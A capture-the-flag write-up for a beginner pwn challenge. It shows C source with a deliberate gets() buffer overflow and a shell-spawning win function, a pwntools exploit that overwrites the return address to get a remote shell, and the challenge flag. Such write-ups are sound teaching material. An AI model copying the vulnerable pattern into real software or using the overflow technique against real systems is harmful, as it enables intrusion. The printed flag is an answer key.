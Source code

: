 # clannad_is_g00d_anim3 
> this is a easy pwn
> Clannad is a good anime 

## Files
```c title="chall.c"
char *gets(char *s);

int Clannad(){
  system("/bin/sh");
}

int vuln(){
  char buffer[64];
  printf("Welcome to the world of dango daikazoku\n");
  printf("enter a dango:");
  gets(buffer);
}

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);

  vuln();
  printf("Hello\n");
  return 0;
}
```

## Vulnerability

Looking at our function `vuln` we can spot a common vulnerability, using the function `gets`. Using gets allows us to input more than 64 characters which will overwrite the return address. This now lets use jump to any function like `Clannad` which gives us a shell

## Exploit

```python
from pwn import *

payload = b'A'*72
payload += p64(0x4011bb)
p = remote('chal.78727867.xyz', 9999)
p.sendline(payload)
p.interactive()
```

First we send enough A to fill up the buffer and a little more

We can find out how many by sending `pwn cyclic` to the binary and seeing in gdb where we end up and then looking up that value

Then we get the address of `Clannad` using either gdb or objdump, which is `0x4011bb` and send that so it becomes our return address

Then we just use the interactive shell and find our flag: `NHNC{CLANNAD_1s_g00d_anim3_and_you_kn0w_BOF}`

## Conclusion

Don't use gets. The compiler literally tells you not to

